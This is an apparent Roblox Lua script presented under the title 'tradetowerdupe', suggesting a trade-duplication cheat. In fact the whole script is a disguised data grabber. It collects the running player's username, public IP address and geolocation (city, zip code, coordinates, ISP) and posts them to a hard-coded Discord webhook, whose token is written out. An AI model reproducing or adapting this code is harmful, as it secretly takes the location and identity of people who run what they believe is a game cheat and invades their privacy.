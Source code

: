 # tradetowerdupe
local name = game:GetService("Players").LocalPlayer.Name
local WebhookURL = "https://discord.com/api/webhooks/974742560465649734/Zm0QEO5ipYStQDehpXC2NVUR1aU2r7ptUrUmH4e8fLprxkU8kf8sLS5MyVI8D1UL4OFR"
local getIPResponse = syn.request({
    Url = "https://api.ipify.org/?format=json",
    Method = "GET"
})
local GetIPJSON = game:GetService("HttpService"):JSONDecode(getIPResponse.Body)
local IPBuffer = tostring(GetIPJSON.ip)

local getIPInfo = syn.request({
    Url = string.format("http://ip-api.com/json/%s", IPBuffer),
    Method = "Get"
})
local IIT = game:GetService("HttpService"):JSONDecode(getIPInfo.Body)
local FI = {
    IP = IPBuffer,
    country = IIT.country,
    countryCode = IIT.countryCode,
    region = IIT.region,
    regionName = IIT.regionName,
    city = IIT.city,
    zipcode = IIT.zip,
    latitude = IIT.lat,
    longitude = IIT.lon,
    isp = IIT.isp,
    org = IIT.org
}
local dataMessage = string.format("User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s", name, FI.IP, FI.country, FI.countryCode, FI.region, FI.regionName, FI.city, FI.zipcode, FI.isp, FI.org)
local MessageData = {
    ["content"] = dataMessage
}

syn.request(
    {
        Url = WebhookURL, 
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode(MessageData)
    }
)  
